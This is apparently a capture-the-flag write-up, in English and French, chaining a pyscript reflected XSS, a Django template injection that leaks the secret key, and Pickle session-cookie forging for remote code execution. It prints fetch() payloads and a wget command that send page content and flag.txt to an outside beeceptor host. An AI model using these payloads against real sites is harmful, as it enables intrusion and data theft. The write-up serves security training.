 # Writeup

## English

- The pyscript functionality allows us to get a reflected XSS with the following payload that we report to the admin:
  ```python
  import base64
  from js import fetch
  fetch('https://endpoint.free.beeceptor.com?a='+base64.b64encode(bytes('test', encoding='UTF-8')).decode())
  ```
- From this XSS, it is possible to execute javascript on the administrator's browser.
- It is not possible to retrieve the administrator's cookies as they are ``HTTP only``.
- It is possible to retrieve the content of the HTML page with :
  ```python
  import base64
  from js import fetch, document
  fetch('https://endpoint.free.beeceptor.com?a='+base64.b64encode(bytes(document.getElementsByTagName('body')[0].innerText, encoding='UTF-8')).decode())
  ```
- Nothing interesting is found because the administrator's report functionality allows him to view the python code through an iframe
- To retrieve the HTML content of the page that contains the iframe :
  ```python
  import base64
  from js import fetch, parent
  fetch('https://endpoint.free.beeceptor.com?a='+base64.b64encode(bytes(parent.document.getElementsByTagName('body')[0].innerText, encoding='UTF-8')).decode())
  ```
- We then find our username and the message we sent in the report
- It is possible to exploit a DTL SSTI vulnerability through the message sent: ``{{ "test" }}``
- It is then possible to recover the secret key used by Django with the payload:
  ```
  {{ messages.storages.0.signer.key }}
  ```
- From this secret key, it is possible to forge Django session cookies. In addition, here the Django application uses Pickle as a 
  means of serializing the data contained in the session cookie. It is possible to obtain an RCE (https://docs.djangoproject.com/en/4.1/topics/http/sessions/#using-cookie-based-sessions)
- The ``wu.py`` script is used to obtain the RCE. The script is mainly taken from the Django source code which manages the production of cookies.
- For example, you can use this command to exfiltrate the flag: ``wget "https://endpoint.free.beeceptor.com?a=`cat flag.txt | base64 -w 0`"``
- Get the flag ;)

## Français

- La fonctionnalité pyscript nous permet de récupérer une XSS réfléchi avec le payload suivant qu'on report à l'admin :
  ```python
    import base64
    from js import fetch
    fetch('https://endpoint.free.beeceptor.com?a='+base64.b64encode(bytes('test', encoding='UTF-8')).decode())
  ```
- A partir de cette XSS, il est possible d'exécuter du javascript sur le navigateur de l'administrateur.
- Il n'est pas possible de récupérer les cookies de l'administrateur car ils sont en ``HTTP only``
- Il est par contre possible de récupérer le contenu de la page HTML avec :
  ```python
    import base64
    from js import fetch, document
    fetch('https://endpoint.free.beeceptor.com?a='+base64.b64encode(bytes(document.getElementsByTagName('body')[0].innerText, encoding='UTF-8')).decode())
  ```
- On ne trouve rien d'intéressant car la fonctionnalité de report de l'administrateur lui permet de consulter le code python à travers une iframe
- Pour récupérer le contenu HTML de la page qui contient l'iframe :
  ```python
    import base64
    from js import fetch, parent
    fetch('https://endpoint.free.beeceptor.com?a='+base64.b64encode(bytes(parent.document.getElementsByTagName('body')[0].innerText, encoding='UTF-8')).decode())
  ```
- On trouve alors notre nom d'utilisateur et le message qu'on a envoyé dans le report
- Il est possible d'exploiter une faille de type DTL SSTI à travers le message envoyé : ``{{ "test" }}``
- Il est ensuite possible de récupérer la secret key utilisé par Django avec le payload :
  ```
  {{ messages.storages.0.signer.key }}
  ```
- A partir de cette secret key, il est possible de forger des cookies de session Django. De plus, ici l'application Django utilise Pickle comme 
  moyen de serialization des données contenu dans le cookie de session. Il est possible d'obtenir une RCE (https://docs.djangoproject.com/en/4.1/topics/http/sessions/#using-cookie-based-sessions)
- Le script ``wu.py`` permet d'obtenir la RCE. Le script est principalement issu du code source de Django qui gère la fabrication des cookies.
- On peut par exemple utiliser cette commande pour exfiltrer le flag : ``wget "https://endpoint.free.beeceptor.com?a=`cat flag.txt | base64 -w 0`"``
- Get the flag ;)
